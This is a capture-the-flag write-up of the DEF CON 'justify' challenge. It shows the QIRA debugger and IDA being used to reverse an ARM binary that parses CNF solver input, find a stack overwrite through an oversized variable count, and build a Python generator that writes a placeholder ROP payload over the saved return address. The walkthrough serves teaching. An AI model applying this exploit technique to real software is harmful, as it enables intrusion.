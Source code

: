 # Introduction #

justify was one the problems in this years defcon CTF, and the one that brought the most points to PPP. Let's solve it. Made with qira-0.9, you should know how to make it match by now.

# Let's play #

```
# assumes you have already ran ./fetchlibs.sh, justify is a dynamically linked ARM binary
qira -s ./justify
```

justify is now listening on port 4000. QIRA is up on port 3002. Let's also open it in IDA.

QEMU has loaded the binary with base 0xF6FF4000, since it's PIE. The addresses IDA loads at by default won't work, since they include the 0 page. Edit->Segments->Rebase Program, Image Base, 0xF6FF4000, and the addresses match and integration works.

# Fun with nc #

```
nc localhost 4000   # connect to justify
```

Hmm, odd. justify just exited, but in the strace we see chdir("/home/justify") = -1. A quick

```
# use /tmp instead of /home
sed s/home/\\/tmp/ justify > justify_patched
# remove any pesky alarms
sed -i s/alarm/isnan/ justify_patched
mkdir /tmp/justify
chmod +x justify_patched
qira -s ./justify_patched
```

And we are back in business.

![http://wiki.qira.googlecode.com/git/images/justify/0.png](http://wiki.qira.googlecode.com/git/images/justify/0.png)

Ok, so we are blocked on a recv of 1. Change 150 was highlighted, but I pressed comma(top of current function) and up arrow(clnum -= 1) to get to change 143 where the recv was called. Now lets look around a little in IDA to see what that recv is expecting.

```
valid chars
' ' -- sets [R7, #0x20+var_8], which gates other functions, name it gate_flag
'%' -- appears to make big stuff happen, but only with gate_flag and ptr set
and there's 3 stores to ptr, 2 of them 0, so following the nonzero store
'$' -- malloc buf of size [0x20+var_14](name size) and recv into malloced
'#' -- recv 4, set the size
```

Okay, so lets go over to little python in our little window and code. Exit nc, and shift-C in QIRA to clear the current forks.

![http://wiki.qira.googlecode.com/git/images/justify/1.png](http://wiki.qira.googlecode.com/git/images/justify/1.png)

We got a segfault, but not a very useful one. Looks more like a null pointer. But in that function, there's a memcmp to "p cnf ". After googling that, we see it's a constraint solver format. Copy in the example from google, and we are in business.

```
p cnf 3 2
1 -3 0
2 3 -1 0
```

![http://wiki.qira.googlecode.com/git/images/justify/2.png](http://wiki.qira.googlecode.com/git/images/justify/2.png)

Much longer, and we are blocked again on the top receive. Google also tells us the two numbers on the top line are variable count and clause count. We fuzz these a little, and find a big variable count like 512 seems to dump stack back to us.

```
p cnf 512 2
1 -3 0
2 3 -1 0
```

```
:w !python
1 2 3 00000000: 01                                                .
00000000: C6 FF FF 07 FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000010: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000020: FF FF FF FF FF FF FF FF  FF FF FF FF C6 FF FF 07  ................
00000030: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000040: FF FF FF FF 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000050: 28 2E FF F6 28 D2 5C F6  FF 01 00 00 FF FF FF FF  (...(.\.........
00000060: 00 00 00 00 01 02 00 00  00 2E FF F6 93 4C FF F6  .............L..
00000070: 00 00 00 00 08 D0 5C F6  08 D0 5C F6 1B 00 00 00  ......\...\.....
...
```

<table>
<tr>
<td width='600px'><img src='http://wiki.qira.googlecode.com/git/images/justify/2_little.png'></img></td>
<td width='250px'>
Using QIRA, we dig into why. Using u and i to jump through data references, we see those FF FF FF FF were written one bit at a time, with a counter at +0x2C.<br />And it looks like we trashed the counter, one bit at a time(j and k to jump through same instruction hits).<br />
It's hard to show on a flat web page how amazing this really is!<br>
</td>
</tr>
</table>

And what would be written one bit at a time in a constraint solver. Why, the output variables of course! Pressing m to jump to the top of the function, we see it's a push {..., lr} and SP is 0xf6ff2dd8, with the first FF at 0xf6ff2d94(see in QIRA) and the counter at 0xf6ff2dbc.

```
So PC = (0xf6ff2dd4-0xf6ff2d94)*8 = var 512
And counter = (0xf6ff2dbc-0xf6ff2dd8)*8 = var 320
```

Quick sanity check, 320 doesn't dump stack, 352 does. So we need the vars from 320-352 to SAT solve to 0. After becoming an expert on CNF, to set 320 to 0, all that takes is "-320 0" as a clause, and "320 0" would set it to 1. So lets code a little python generator.

```
rop = [0x11223344, 0xAABBCCDD]
var_count = 512+len(rop)*32
clause_count = 0
pcnf = []
def push(x):
  global cnum, clause_count
  cnum += 1    # variables are 1 indexed
  pcnf.append(('-' if x=='0' else '')+str(cnum)+" 0")
  clause_count += 1
cnum = 320
map(push, "0"*32)
cnum = 512
for r in rop:
  map(push, bin(r)[2:][::-1].ljust(32, '0'))
dat = "p cnf %d %d\n" % (var_count, clause_count) + '\n'.join(pcnf)
```

This will 0 out the counter, allowing the function to return, and also write the ROP payload starting at where PC will be popped from. And sure enough...

<img src='http://wiki.qira.googlecode.com/git/images/justify/3.png' width='600px></img'>

Hopefully you can take it from here.<br>
<br>
~geohot
